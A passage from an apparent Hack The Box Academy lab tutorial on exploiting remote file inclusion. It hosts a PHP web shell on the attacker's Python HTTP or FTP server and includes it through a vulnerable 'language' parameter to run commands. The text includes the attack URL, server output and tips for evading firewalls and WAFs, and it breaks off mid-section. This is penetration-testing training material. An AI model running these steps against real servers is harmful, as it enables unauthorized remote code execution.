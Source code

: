 Now, all we need to do is host this script and include it through the RFI vulnerability. It is a good idea to listen on a common HTTP port like `80` or `443`, as these ports may be whitelisted in case the vulnerable web application has a firewall preventing outgoing connections. Furthermore, we may host the script through an FTP service or an SMB service, as we will see next.

## HTTP

Now, we can start a server on our machine with a basic python server with the following command, as follows:


```shell-session
smoothment@htb[/htb]$ sudo python3 -m http.server <LISTENING_PORT>
Serving HTTP on 0.0.0.0 port <LISTENING_PORT> (http://0.0.0.0:<LISTENING_PORT>/) ...
```

Now, we can include our local shell through RFI, like we did earlier, but using `<OUR_IP>` and our `<LISTENING_PORT>`. We will also specify the command to be executed with `&cmd=id`:

```
http://<SERVER_IP>:<PORT>/index.php?language=http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id
```

![](https://academy.hackthebox.com/storage/modules/23/rfi_localhost.jpg)

As we can see, we did get a connection on our python server, and the remote shell was included, and we executed the specified command:


```shell-session
smoothment@htb[/htb]$ sudo python3 -m http.server <LISTENING_PORT>
Serving HTTP on 0.0.0.0 port <LISTENING_PORT> (http://0.0.0.0:<LISTENING_PORT>/) ...

SERVER_IP - - [SNIP] "GET /shell.php HTTP/1.0" 200 -
```

**Tip:** We can examine the connection on our machine to ensure the request is being sent as we specified it. For example, if we saw an extra extension (.php) was appended to the request, then we can omit it from our payload

## FTP

As mentioned earlier, we may also host our script through the FTP protocol. We can start a basic FTP server with Python's `pyftpdlib`, as follows:

```shell-session
smoothment@htb[/htb]$ sudo python -m pyftpdlib -p 21

[SNIP] >>> starting FTP server on 0.0.0.0:21, pid=23686 <<<
[SNIP] concurrency model: async
[SNIP] masquerade (NAT) address: None
[SNIP] passive ports: None
```

This may also be useful in case http ports are blocked by a firewall or the `http://` string gets blocked by a WAF. To include our script, we can repeat what we did earlier, but use the `ftp://` scheme in the URL, as follows:
